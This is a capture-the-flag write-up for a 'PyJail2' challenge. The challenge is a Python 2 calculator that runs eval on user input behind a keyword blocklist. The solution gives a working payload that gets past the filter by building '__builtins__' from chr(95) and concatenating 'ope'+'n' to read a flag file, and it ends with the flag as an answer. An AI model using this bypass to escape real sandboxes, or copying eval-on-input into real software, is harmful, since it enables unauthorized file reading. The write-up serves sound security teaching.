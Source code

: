 # [PyJail2](http://s1063.vdi.mipt.ru:8000/challenges#PyJail2) 
You can find flag in `/home/pyjail2/flag.txt`

```python
#!/usr/bin/python2.7 -u

print("Calculator v0.1")

expr = raw_input("expression = ")

bad_words = ['import', 'eval', 'exec', 'os', 'sys', 'input', 'open', '_']

for bad_word in bad_words:
    if bad_word in expr:
        print("Go away!")
        exit(0)

print(expr + " = " + str(eval(expr)))

```

# Solution
We need somehow run line of code like: `list(open('<filename>', 'r'))`, but `open` is in `bad_words` list.
Let's see at `globals()`:
```python
globals() = {'bad_words': ['import', 'eval', 'exec', 'os', 'sys', 'input', 'open', '_'], 
             '__builtins__': <module '__builtin__' (built-in)>, 
			 'expr': 'globals()', 
			 '__file__': './pyjail2', 
			 '__package__': None, 
			 '__name__': '__main__', 
			 'bad_word': '_', 
			 '__doc__': None
}
```

So `__builtins__` can be retrieved via `globals()['__builtins__']`, but we cannot use `_`, so let's change it with `chr(95)`:
`globals()[2 * chr(95) + 'builtins' + 2 * chr(95)]`.

To get a dictionary of method's names and methods itself we can use `vars`:
`vars(globals()[2 * chr(95) + 'builtins' + 2 * chr(95)])`, and to get an open function do same trick:
`vars(globals()[2 * chr(95) + 'builtins' + 2 * chr(95)])['ope' + 'n']`.
The whole line is:
`list(vars(globals()[2 * chr(95) + 'builtins' + 2 * chr(95)])['ope' + 'n']('/home/pyjail2/flag.txt', 'r'))` and the response is:
`list(vars(globals()[2 * chr(95) + 'builtins' + 2 * chr(95)])['ope' + 'n']('/home/pyjail2/flag.txt', 'r')) = ['flag{ja1l_esc4ped?}\n']`, so

**Answer**: `flag{ja1l_esc4ped?}`